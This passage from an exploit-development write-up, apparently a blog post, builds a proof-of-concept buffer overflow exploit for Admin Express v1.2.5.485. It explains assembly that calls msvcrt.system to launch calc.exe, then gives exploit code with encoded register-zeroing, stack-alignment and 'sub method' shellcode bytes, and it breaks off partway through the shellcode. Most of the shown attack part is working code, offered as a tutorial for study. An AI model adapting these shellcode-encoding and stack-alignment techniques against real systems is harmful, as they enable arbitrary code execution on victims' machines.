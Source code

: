 Before I update the PoC, here are the assembler instructions for the opcodes we are going to execute for `calc.exe`:

```console
xor ecx,ecx        
push ecx        
push 0x636c6163 ; 0x636c6163 is calc    
push dword ptr esp        
mov eax,0x77c293c7        
call eax  
```
The register ECX is first reverted to a state of being "zero" in order for calculations to be made. Then, that null value is pushed onto the stack to terminate any string that may come before it. Then, the DWORD "calc" is pushed onto the stack. Whenever an item is pushed onto the stack, it will automatically reside in ESP.

Calling ```msvcrt.system``` requires a pointer as an argument. Since we want to execute ```calc.exe```, we pushed the DWORD onto the stack. The ```push dword ptr esp``` pushes the pointer that references the application we want to execute. Then, the address of ```msvcrt.system``` is loaded into EAX. The function is then called, with a pointer to```calc``` as the argument for execution.

Anyways, here is the updated PoC:

```console
# Proof of Concept - Admin Express v1.2.5.485 Exploit


# For zeroing out registers before manual shellcode
zero = "\x25\x01\x01\x01\x01"           # and eax, 0x01010101
zero += "\x25\x10\x10\x10\x10"          # and eax, 0x10101010

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
alignment += "\x2d\x38\x4d\x55\x55" 	# sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" 	# sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55"	# sub eax, 0x364E5555
alignment += "\x50" 		   	# push eax
alignment += "\x5c" 			# pop esp; (puts the value of eax back into esp)

# calc.exe shellcode, via the sub method. Values needed are as followed. Reference the calc.exe shellcode line for line numbers.
# 1st line = 2C552D14 01552D14 01562E16
shellcode = zero
shellcode += "\x2d\x14\x2d\x55\x2c" 	# sub eax, 0x2C552D14
```
